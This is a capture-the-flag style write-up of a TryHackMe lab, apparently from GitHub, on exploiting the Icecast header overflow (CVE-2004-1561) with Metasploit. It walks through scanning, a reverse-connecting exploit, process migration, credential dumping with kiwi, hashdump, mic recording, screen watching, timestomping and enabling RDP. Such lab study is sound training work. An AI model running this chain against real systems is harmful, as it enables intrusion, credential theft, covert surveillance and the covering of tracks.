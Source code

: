 # Icecast Exploit
> Author: daniboomberger
> Date: 16.10.2020

## Recon
> **Scan the machine**
> - `nmap -sC -sV -Pn <IP_ADDRESS>`
> - This will return our open ports and Versions of the server. `-Pn` this just look at every host as if it where online
> `sudo nmap -sS -Pn <IP_ADDRESS>`
> - I ran this SYN scan just it was recommended by the box
>
> **What is the Microsoft Remote Desktop Port?**
> - As we ran the command before I just analyzed the data. And there was a MSRDP port `3389`
>
>**What Service did run on port 8000?**
> - It is the `Icecast` Service running on port `8000`
>
>**What does Nmap identify as hostname?**
> - The hostname is `DARK-PC`

## Gain Access
> **What type of Vulnerability is Icecast?**
> - Thanks to https://www.cvedetails.com it was easy. `Execute Code Overflow`
>
> **What is the CVE number for the Vulnerability?**
> - `CVE-2004-1561` (CVE-YEAR-NUMBER)
>
> **Path of exploit in Metasploit?**
> - `search icecast`
> - To find the exploit in Metasploit
> - `exploit/windows/http/icecast_header`
>
> **Configure and Exploit**
> - `show options`
> - This will give us the information for the confiugration
> - set RHOSTS <IP_ADDRESS>
> - set LHOST <IP_ADDRESS> <-- The IP for LHOST is the tun0 IP, It is your internal IP for tryhackme
> - `run` or `exploit`

## Looting
> **How to get running process of the machine?**
> - `ps`
> - Command to show running process
> - We needed to search for the printer process ran by `NT AUTHORITY\SYSTEM`
> - `spoolsv.exe` was the process to find
>
> **Migrate process**
> - `migrate -N <PROCESS_NAME>`
> - Migrate our process <PROCESS_NAME> would be `spoolsv.exe`
>
> **How to load mimkatz?**
> - `load kiwi`
> - Why kiwi instead of mimkatz? because kiwi is the updated version of mimkatz
> 
> **Get credentials with kiwi**
> - `creds_all`
> - Will display the password for the DARK user `Password01`

## Post-Exploitation
> **Get stored password hashes**
> - `hashdump`
>
> **Watch remotes user's desktop**
> - `screenshare`
>
> **How to record the mic?**
> - `record_mic`
> 
> ** How to change timestamp of file?**
> - `timestomp`
> - Never do this in a actual penetration test
>
> **How to enable MSRDP?**
> - `run post/windows/manage/enable_rdp`

## Conclusion
> I have to say it's pretty similar to Eternal Blue, nothing much. Just do this Room some days later, so you can repeat the stuff you learned in the Eternal Blue Room. But it was a good repetition to learn Metasploit, nmap and meterpreter

